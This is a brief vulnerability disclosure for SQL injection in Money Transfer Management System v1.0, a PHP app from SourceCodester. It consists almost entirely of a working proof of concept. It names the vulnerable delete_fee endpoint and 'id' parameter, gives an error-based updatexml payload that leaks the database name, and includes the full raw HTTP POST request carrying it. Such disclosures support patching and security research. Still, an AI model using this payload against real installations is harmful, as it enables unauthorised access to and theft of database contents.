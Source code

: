 # Money Transfer Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html

Vulnerability File: \mtms\classes\Master.php?f=delete_fee

Vulnerability location: /mtms/classes/Master.php?f=delete_fee, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /mtms/classes/Master.php?f=delete_fee HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/mtms/admin/?page=maintenance/fee
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bnvs2lhahed1884v0nf12nt52s
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/164716393-99c85e90-bae8-49c1-aeb8-e2f3f5ef7576.png)
